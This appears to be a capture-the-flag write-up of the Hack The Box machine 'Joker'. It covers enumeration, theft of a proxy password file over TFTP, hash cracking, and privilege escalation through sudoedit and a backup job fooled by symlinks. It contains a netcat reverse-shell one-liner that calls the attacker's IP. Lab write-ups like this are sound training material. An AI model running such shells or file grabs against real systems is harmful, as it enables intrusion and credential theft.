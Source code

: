 
![logo](/logo.png)

# [Joker- BOX]  
Hi folks, today I am going to solve an Hard rated hack the box machine which was released on 22 Mar 2017 as the eight machine on HTB,Joker created by [eks](https://app.hackthebox.com/users/302)without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *ssh
  *Squid http
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/joker 10.10.10.21
```

###### Output 

![](/Linux/Linux-Hard/Joker/Screenshots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/joker 10.10.10.21                                                                                           ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-18 16:28 EAT
Nmap scan report for 10.10.10.21
Host is up (0.34s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 88:24:e3:57:10:9f:1b:17:3d:7a:f3:26:3d:b6:33:4e (RSA)
|   256 76:b6:f6:08:00:bd:68:ce:97:cb:08:e7:77:69:3d:8a (ECDSA)
|_  256 dc:91:e4:8d:d0:16:ce:cf:3d:91:82:09:23:a7:dc:86 (ED25519)
3128/tcp open  http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.27 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `squid 3.5.12`. 

port[22]-http
port[3128]-http-proxy Squid

when we naviagate to [http://10.10.10.21:3128](http://10.10.10.21:3128)  we find a page  `error page`

![](/Linux/Linux-Hard/Joker/Screenshots/browser.png)

so we set another nmap to check for `UDP` ports

```sh
nmap -sV -sC -sU  -oA nmap/joker 10.10.10.21  
```

![](/Linux/Linux-Hard/Joker/Screenshots/udp.png)

# Exploitation

#### TFTP
Exploiting the TFTP server is trivial it will allow files to be transferred to the local machine. 

```sh
 tftp 10.10.10.21 
```

Once connected, the command `get /etc/squid/squid.conf `will get the Squid configuration file

![](/Linux/Linux-Hard/Joker/Screenshots/tftp.png)

Upon checking the `squid.conf` it revels  references `/etc/squid/passwords`.

![](/Linux/Linux-Hard/Joker/Screenshots/squid.png)

Downloading the passwords file reveals the login credentials for the proxy, however the password is hashed.

![](/Linux/Linux-Hard/Joker/Screenshots/hashed.png)

we we lauch hashcat and to know which hash  this one is we can be able to to go to this page [hashacat_example](https://hashcat.net/wiki/doku.php?id=example_hashes)

![](Linux/Linux-Hard/Joker/Screenshots/hashes.png)

```sh
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```

![](/Linux/Linux-Hard/Joker/Screenshots/hashcat.png)



now after getting the password we go set a proxy then use those credential to view the page without the port.

![](/Linux/Linux-Hard/Joker/Screenshots/foxy.png)


![](/Linux/Linux-Hard/Joker/Screenshots/proxy.png)

Setting up a browser with the proxy and attempting to view http://127.0.0.1 reveals a URL
shortener.

![](/Linux/Linux-Hard/Joker/Screenshots/shorty.png)

Because we are not listenning to port 80 of the `127.0.0.1` of the box lets set a proxychain so that we can be able to fuzz other directories that exist in the box

so lets add an upsream burpsuite 

![](/Linux/Linux-Hard/Joker/Screenshots/burp.png)

Then we add a proxy redirect

![](/Linux/Linux-Hard/Joker/Screenshots/proxyre.png)

so when we do curl to confirm that we can be able to get the content of the shory url 

```sh
curl 127.0.0.1:80
```

![](/Linux/Linux-Hard/Joker/Screenshots/curl.png)


```sh
nano /etc/proxychains4.conf
```

![](/Linux/Linux-Hard/Joker/Screenshots/proxychain.png)

```sh
proxychains gobuster dir -u http://127.0.0.1:80 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k
```

![](/Linux/Linux-Hard/Joker/Screenshots/gobuster.png)
so upon viewing the console we get a page which seems that we can execute python codes

![](/Linux/Linux-Hard/Joker/Screenshots/console.png)

The Python console at /console/ can be used to obtain a reverse shell. However, only UDP is
available. 

so lets get a shell

```sh
import os
os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.15 1234 >/tmp/f &").read() 
```

![](/Linux/Linux-Hard/Joker/Screenshots/consoleweb.png)

and that way we get shell

![](/Linux/Linux-Hard/Joker/Screenshots/shell.png)

running `sudo -l` it reveals a `NOPASSWD`  file that is run by the user `alekos`. Using the
above exploit, it is possible to create a symbolic link pointing to the a`uthorized_key` file for the
alekos user.

![](/Linux/Linux-Hard/Joker/Screenshots/joker.png)

```sh
ln -s /home/alekos/.ssh/authorized_keys layout.html
```

![](/Linux/Linux-Hard/Joker/Screenshots/alekos.png)

i then cd to `/var/www/testing/` then i creat a folder leshack so that i can be able to do the symbolic link. so this first tries to edit the layout.html will the other tries to edit three files then edits the authorized key

```sh
sudoedit -u alekos /var/www/testing/leshack/layout.html
```

```sh
sudoedit  -u alekos /var/www/ .ssh/authorized_keys /layout.html
```

but when i edit the file to add my ssh am unable to exit from the nano. so i have to get an interactive shell.

```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

to check for colums and rows in you machine run

```sh
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

![](/Linux/Linux-Hard/Joker/Screenshots/rows.png)

you can generate ths ssh key with

```sh
ssh-keygen
```

![](/Linux/Linux-Hard/Joker/Screenshots/ssh.png)


and after ssh because our key is on authorized keys for alekos we then get shell

![](/Linux/Linux-Hard/Joker/Screenshots/aleko.png)

![](/Linux/Linux-Hard/Joker/Screenshots/shell1.png)

we can get now get the user flag 

![](/Linux/Linux-Hard/Joker/Screenshots/userflag.png)

Now in order to privesc to root on this box we're going to take a look at alekos's files:

```sh
ls -lash backup/
```


![](/Linux/Linux-Hard/Joker/Screenshots/lash.png)

here we see that a backup is being made every 5 minutes by the root user. So let's extract one of these backups to see what it does:

![](/Linux/Linux-Hard/Joker/Screenshots/backup.png)

And here we see that basically there is a backup of the development folder that's being made every 5 minutes. So we basically make a symbolic link to /root/ so that the next backup that's being made is going to be that of the `**/root/**`  directory where the root flag is.

so we have mv the development folder so that we can be able to create alink with the development to the root.

![](/Linux/Linux-Hard/Joker/Screenshots/backupfile.png)


```sh
tar -xvf dev-
```

![](/Linux/Linux-Hard/Joker/Screenshots/root.png)

	-------------------------END successful attack @lesley----------------------